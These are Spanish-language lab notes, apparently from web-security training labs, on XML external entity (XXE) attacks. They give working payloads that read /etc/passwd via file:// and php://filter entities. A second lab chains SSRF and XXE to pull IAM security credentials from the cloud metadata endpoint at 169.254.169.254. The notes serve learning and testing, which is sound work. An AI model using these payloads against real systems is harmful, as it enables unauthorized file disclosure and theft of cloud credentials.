 
## LAB 1

Este ataque surge al poder declarar una nueva entidad en nuestro código xml. La forma básica de este ataque es la siguiente:
<!DOCTYPE foo[ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Aprovechamos el wrapper file://
Para luego llamar a la entidad xxe de la siguiente forma "&xxe;". El laboratorio quedaria de la siguiente manera:

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo[ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

Otra forma de crear una entidad para un XXE sería:

<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>

## LAB 2

En este lab explotamos un SSRF + XXE, tratamos de listar directorios y el ataque nos queda de la siguiente manera:

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo[ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>

<stockCheck><productId>

&xxe;

</productId><storeId>1</storeId></stockCheck>
```



